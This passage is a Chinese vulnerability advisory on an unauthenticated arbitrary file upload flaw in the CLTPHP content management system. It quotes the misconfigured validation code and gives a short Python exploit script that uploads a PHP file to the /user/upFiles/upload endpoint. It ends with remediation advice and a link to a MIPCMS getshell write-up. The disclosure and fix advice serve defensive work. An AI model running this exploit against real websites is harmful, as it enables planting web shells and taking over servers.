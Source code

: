 在文件`\think\library\think\File.php`中的38-42行。

	 /**
	     * @var array 文件上传验证规则
	     */
	    protected $validate = [];

在同文件中validate默认值为空，调用ThinkPHP的上传函数，但配置不当导致过滤函数chenk无效，导致程序在实现存在任意文件上传漏洞，攻击者无需任何权限，可直接上传恶意脚本，控制网站服务器权限。

##### 漏洞利用

	#!/usr/bin/python
	# Bypass
	
	import requests
	import sys
	
	def cltphp_up(url):
	    header = { 'User-Agent' : 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)','X-Requested-With': 'XMLHttpRequest',}   
	    geturl = url +"/user/upFiles/upload"
	    files = {'file':('1.php',open('1.php','rb'),'image/peg')}
	    res = requests.post(geturl,files=files,headers=header)
	    print res.text
	    
	if __name__ == "__main__":
	    if len(sys.argv) == 2:
	        url = sys.argv[1]
	        cltphp_up(url)
	        sys.exit(0)
	    else:
	        print("usage: %s www.abc.com" % sys.argv[0])
	        sys.exit(-1)

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-19/88597949.jpg)


访问`http://127.0.0.1:8000/cltphp/public/uploads/20180319/e6c63118ba063b9f97f1e931622582ab.php`

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-19/31223165.jpg)

##### 修复建议

1、添加上传页面的认证，通过白名单限制上传文件后缀；

2、禁止上传目录脚本执行权限。

#### [20180322 MIPCMS 远程写入配置文件Getshell](https://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=301419963&idx=1&sn=0cb82aa5629b6432415c93d9f2b8eb8c&chksm=0b55dde63c2254f04399a7afa7f49a3889e8eaa37d747ec1a1b70f00cc0bf94c764db1295a11&mpshare=1&scene=23&srcid=0321pbJgBla01aN1U5GZXNlG#rd)
